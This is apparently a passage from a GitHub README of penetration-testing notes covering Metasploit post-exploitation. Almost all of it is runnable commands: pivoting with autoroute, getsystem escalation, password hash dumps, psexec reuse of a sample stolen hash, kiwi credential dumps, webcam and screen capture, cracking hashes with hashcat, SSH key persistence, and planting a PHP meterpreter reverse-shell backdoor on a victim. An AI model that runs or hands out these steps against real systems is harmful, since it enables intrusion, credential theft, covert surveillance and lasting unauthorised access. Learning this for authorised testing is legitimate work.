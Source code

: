          - do the **pivoting** by exploiting the connected IPs found with ipconfig. Run the command `info post/multi/manage/autoroute` to get the help list. 
             - In the meterpreter `run post/multi/manage/autoroute` for the CCIDR notation (24 is the number of bytes in the subnet mask that you are scanning)
             - Then get the whole system `run post/windows/escalate/getsystem`
             - ... and dump the passwords `run post/windows/gather/smart_hashdump`
        - Enumerate other networks -- within the mterpreter session -- with e.g. `run post/linux/gather/enum_network` (if the system is linux).
        - You can check the `arp -a` routing tables to see if there are other netwroks connected and ready to be exploited! Similarly for `netstat -ano`.
        - check if there are other systems `use auxiliary/scanner/portscan/tcp`
            - set the newly found IPs `set RHOSTS 10.1.13.0/24` and ports `set PORTS 139,445`
            - Once we find the new open ports, let's try our stored password to gain access to this new system: `use exploit/windows/smb/psexec` and set `set SMBUser Administrator` and `set SMBPass 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d` and finally bind the new tcp `set PAYLOAD windows/meterpreter/bind_tcp`; execute `exploit`. If everything goes well, we get the meterpreter console
     - check also `portfwd` command on meterpreter [here](https://www.offensive-security.com/metasploit-unleashed/portfwd/). This command creates a tunnel from the local ports to the remote ports: `portfwd add –l 3389 –p 3389 –r  target_IP`.
 - To capture screenshots, use `use post/windows/manage/webcam`, add the the meterpreter session and then `screengrab` once you are in the meterpreter.
 - To dump all the avalable credentials (pro version) use `load kiwi` and then `creds_all`.
 - Table password hacking: when you loot the hash of passwords (*use post/linux/gather/hashdump on an open session*), you can use **John The Ripper** with `use auxiliary/analyze/crack_aix` then `run`. In the docker version, you do not have *jtr*: see below for **hashcat**. An home-made version of an hash cracker is `hashcracker` (check the folder `/hashcracker/source/`) and run from the root folder  `python source/hashcracker.py SHA256 11a1162b984fef626ecc27c659a8b0eead5248ca867a6a87bea72f8a8706109d -mode bruteforce -range 6 11 -chars abcdefghijklmnopqrstuvwxyz0123456789$#@` or something like `python source/hashcracker.py MD5 list_of_hashes.txt -mode list -pwlist passwordlist.txt -hashlist ` or even `python source/hashcracker.py SHA256 11a1162b984fef626ecc27c659a8b0eead5248ca867a6a87bea72f8a8706109d -mode list -pwlist ../lists/realhuman_phill.txt`. For more powerful tools, check the next subsection.
 
### Cracking hashes with hashcat
Table password hacking with **hashcat**: currently the most powerful free tool. Download the docker with `docker pull dizcza/docker-hashcat:intel-cpu` and, from the root of this repo, folder run it via `docker run -v "${PWD}/:/root/lists/" -it dizcza/docker-hashcat:intel-cpu /bin/bash`. Once inside the docker, you can run `hashcat -b` to check if it works. Then, refer to the official [website](https://hashcat.net/wiki/doku.php?id=hashcat) for more information. A real test with `hashcat -m 500 -o lists/lists/cracked_hash.pwd lists/lists/stolen_hash.pwd lists/lists/psw_common.pwd`.
To see the previously hacked hashes, you can use the `--show` switch. for example, if you have just cracked the file `lists/100.hccapx`, you can type:
```
hashcat -m 2500 --show lists/100.hccapx
```

## Maintaining access

 - Add a new **ssh** account to login with it anytime: `use post/linux/manage/sshkey_persistence`.
 - **Install backdoor on linux**. We assume you already have a meterpreter session open. The fist step is to prepare a listener on the localhost:
     - First `use exploit/multi/handler` and set the set the `set PAYLOAD payload/php/meterpreter/reverse_tcp` and run with `exploit -j` to run in the background. For the moment we are only listening.
     - We now have to prepare the executable version of the same payload: `use payload/php/meterpreter/reverse_tcp` and generate it as a file: `generate -f raw -o reverse_tcp.php`. **Pay attention to the initial comments in the file**: if you want to execute the file with meterpreter created shell via `php file_name.php`, you have to remove the initial `/*`  `/**/`comments from the file.
     - Upload this file to the victim with meterpreter: `upload LOCAL_SCRIPT REMOTE_LOCATION`.
     - (Not needed for *php*, useful for *bash*) Change to executable and execute the script via: `chmod 777 REMOTE_FILE` then  `execute -f REMOTE_FILE`.
     - Then execute the php file from the shell: `shell` then `php file_name.php`.
     - The `multi/haldler` shall now have received the connection.